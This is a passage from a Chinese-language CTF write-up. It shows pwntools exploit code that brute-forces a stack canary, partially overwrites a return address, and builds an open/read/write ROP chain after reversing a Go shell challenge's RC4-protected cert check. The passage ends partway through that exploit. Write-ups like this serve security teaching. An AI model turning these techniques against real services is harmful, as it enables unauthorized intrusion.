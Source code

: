     for i in range(7):
        for j in range(256):
            payload = b"A" * 0x68 + canary + p8(j)
            p.send(payload)
            p.recvline()
            res = p.recvline()
            if b"stack smashing" not in res:
                info(f"canary[{i}] = {hex(j)}")
                canary += p8(j)
                break
        assert(len(canary) == i + 2)

    success(f"canary = {canary}")

    context.log_level = "debug"

    for j in range(0x100):
        payload = b"A" * 0x68 + canary + b"A" * 8 + p8(0x2E) + p8(j)
        p.send(payload)
        res = p.recv()
        if b"flag" in res:
            print(res)
            break
    ```

---

## Shell We Go

go 逆向，通过搜索关键字符串，知道函数 sub_4C1900 处为处理命令的函数，其中跟着 cert 命令可以知道接下来需要输入 nAcDsMicN 然后剩余内容在 sub_4C14A0 函数中进行判断。

根据 IDA finger 的解析，这个函数中先对输入进行了 rc4 加密，密钥为 F1nallB1rd3K3y，然后对结果 Base64 后与 JLIX8pbSvYZu/WaG 比较，返回来即可得到 cert 认证的内容 `S33UAga1n@#!`

接下来就可以进行 shell 操作，ls 直接调用 os，cd 直接调用 os.chdir，cat 禁止，cat flag 输出假 flag，whoami 直接输出 nightingale，exit 退出，只有 echo 先输入后输出，测试得知会存在栈溢。而且根据逆向，需要先用 0x200 个 + 填满 buffer，下一个参数中再进行返回地址的覆盖。

调试得知可以进行返回地址的覆盖，所以进行 ROP 即可，因为 flag 字符串在程序中多次出现，所以 open read write 即可。

???+ success "exp"
    ```python
    p.sendlineafter(b"$ ", b"cert nAcDsMicN S33UAga1n@#!")
    # p.interactive()

    """
    0x000000000040d9e6 : pop rax ; ret
    0x0000000000444fec : pop rdi ; ret
    0x000000000041e818 : pop rsi ; ret
    0x000000000049e11d : pop rdx ; ret
    0x000000000040328c : syscall
    """

    pop_rax_ret = 0x40d9e6
    pop_rdi_ret = 0x444fec
    pop_rsi_ret = 0x41e818
    pop_rdx_ret = 0x49e11d
    syscall = 0x40328c
    syscall_ret = 0x4636e9
    flag_str = 0x4c34c8
    data_buf = 0x59be00
